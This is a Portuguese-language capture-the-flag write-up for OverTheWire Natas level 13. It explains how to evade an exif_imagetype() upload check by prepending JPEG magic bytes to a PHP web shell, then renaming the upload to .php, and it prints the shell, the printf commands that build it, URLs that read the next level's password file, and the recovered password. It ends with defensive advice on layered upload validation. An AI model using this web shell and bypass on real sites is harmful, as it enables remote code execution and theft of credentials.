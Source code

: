 # 🕵️ Natas - Nível 13 (🇧🇷 Português)  
*Data: 04/06/2025*  
*Dificuldade: Média*   
*Categoria: Web* 

---

## 🎯 Objetivo

O objetivo deste desafio é burlar uma validação de tipo de arquivo baseada em "magic bytes" (`exif_imagetype()`) e, combinando com a manipulação de nome de arquivo do nível anterior, alcançar Execução Remota de Código (RCE) para obter a senha do próximo nível (Natas14).  

---

## 🔎 Análise

- A vulnerabilidade de manipulação de nome de arquivo do Natas12 persiste: o nome e a extensão do arquivo a ser salvo são definidos por um campo oculto (`<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />`). Isso permite que um atacante, ao interceptar a requisição HTTP (e.g., via Burp Suite), altere a extensão de `.jpg` para `.php`.  
- Nova Verificação de Segurança: O script PHP agora inclui uma validação `! exif_imagetype($_FILES['uploadedfile']['tmp_name']`).  
  A função `exif_imagetype()` lê os primeiros bytes do arquivo (conhecidos como "`magic bytes`" ou "`assinatura`") para determinar se ele corresponde a um formato de imagem válido (JPEG, PNG, GIF, etc.).  
  Se o arquivo não possuir uma assinatura de imagem reconhecida, `exif_imagetype()` retorna `false`, fazendo com que o upload seja rejeitado com a mensagem "File is not an image".  
  Isso impede o upload direto de um arquivo PHP puro, pois ele não possui magic bytes de imagem.
- Para contornar a verificação `exif_imagetype()`, precisamos criar um arquivo poliglota: um arquivo que seja válido tanto como uma imagem JPEG quanto como um script PHP. A chave para isso é inserir os magic bytes de um arquivo de imagem no topo do nosso código PHP.  
  O interpretador de imagem (`exif_imagetype()`) lerá os magic bytes no início do arquivo e o reconhecerá como uma imagem.  
  O interpretador PHP, ao executar o arquivo (uma vez que sua extensão tenha sido manipulada para `.php`), ignorará os magic bytes iniciais (que não são código PHP válido) e começará a interpretar o código PHP a partir da tag `<?php`.  

---

## 🧱 Etapas

1. Análise do Código Fonte: Confirmar a persistência da vulnerabilidade de `filename` (do Natas12) e identificar a nova validação `exif_imagetype()`.  
2. Preparar o Payload Poliglota: Criar um arquivo que contenha magic bytes de JPEG no início, seguidos pelo nosso shell PHP.
  Utilizamos o terminal para criar o arquivo, garantindo a inserção correta dos bytes hexadecimais literais e do código PHP.  
  Nosso payload PHP é `<?php system($_GET["cmd"]); ?>`.  
  Os magic bytes JPEG são `\xFF\xD8\xFF\xE0` (para JFIF JPEG).  
3. Criar o Arquivo Malicioso via Terminal:  
   printf '\xFF\xD8\xFF\xE0' > bypass.php  
   printf '<?php system($_GET["cmd"]); ?>' >> bypass.php
O primeiro `printf` cria o arquivo `bypass.php` com os magic bytes JPEG.  
O segundo `printf` (usando `>>`) anexa o payload PHP logo após os magic bytes, sem sobrescrever.  
4. Iniciar o Upload: No navegador, selecionar o arquivo `bypass.php` (ou o nome que você deu ao arquivo poliglota) e preparar para fazer o upload.
5. Interceptar e Manipular Requisição: Utilizar uma ferramenta proxy interceptadora (como Burp Suite) para capturar a requisição de upload.  
6. Alterar Extensão: Na requisição interceptada, localizar o parâmetro `filename` (que virá com um valor como [nome_aleatorio].jpg do campo oculto) e alterar sua extensão para `.php` (ex: `[nome_aleatorio].php`).  
7. Reenviar Requisição: Encaminhar a requisição modificada para o servidor. O servidor aceitará o arquivo, pois os magic bytes satisfazem `exif_imagetype()`.
8. Acessar o Shell Web: O servidor retornará o caminho do arquivo (ex: `upload/bldzmc4xs4.php`). Navegar até essa URL.
9. Executar Comandos (RCE): O shell PHP será interpretado. Adicionar o parâmetro `cmd` na URL para executar comandos.  
    Testar: `http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=pwd` (retornará `/var/www/natas/natas12/upload`). 
    Obter a senha do Natas14: `http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=cat%20/etc/natas_webpass/natas14`.  

---

## 🔑 Senha Encontrada

```
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
```

---

## ✅ Conclusão

A exploração do Natas13 foi bem-sucedida ao combinar a manipulação do nome do arquivo (persistente do nível anterior) com uma técnica de criação de arquivo poliglota (JPEG + PHP). A inserção de "magic bytes" de imagem no cabeçalho do nosso shell PHP permitiu que o arquivo passasse pela verificação `exif_imagetype()`, enquanto sua extensão manipulada (`.php`) garantiu que fosse interpretado pelo servidor PHP, resultando em Execução Remota de Código (RCE). Este desafio demonstra a importância de validações de upload robustas e multi-camadas que não se baseiem apenas em magic bytes ou extensões simples.


---

## 🧪 Comandos Utilizados

- Criação do arquivo poliglota `bypass.php` no terminal:
```Bash
printf '\xFF\xD8\xFF\xE0' > bypass.php
printf '<?php system($_GET["cmd"]); ?>' >> bypass.php
```
Obter senha do Natas14: 
```bash
http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=cat%20/etc/natas_webpass/natas14
``` 
---

## 🧠 Observações

- Validação de Tipo de Conteúdo: Confiar apenas em `exif_imagetype()` não é suficiente. É vital verificar não apenas os magic bytes, mas também realizar uma validação mais profunda do conteúdo do arquivo (por exemplo, usando bibliotecas que realmente parseiam a estrutura da imagem e verificam sua integridade).  
- Segurança em Camadas: As validações de upload devem ser em camadas: tipo MIME (verificado via `Content-Type`), extensão (validada por whitelist), magic bytes, e, idealmente, verificação do conteúdo da imagem por uma biblioteca robusta (para evitar polyglots).  
- Isolamento de Uploads: Arquivos enviados por usuários devem ser armazenados em um diretório que não permita execução de scripts e, se possível, servidos via um domínio ou CDN diferente.  
- Princípio do Mínimo Privilégio: Certifique-se de que o usuário sob o qual o servidor web roda tenha as permissões mínimas necessárias, limitando o impacto de um RCE.  


---

## 📎 Scripts desenvolvidos

`bypass.php`: Um arquivo poliglota PHP/JPEG (`<?php system($_GET['cmd']); ?>` com magic bytes JPEG) criado diretamente no terminal.

---

<p align="center"> <a href="../Natas12/Readme-BR.md">⬅️ Anterior</a> • <a href="../Natas14/Readme-BR.md">Proximo ➡️</a> </p>
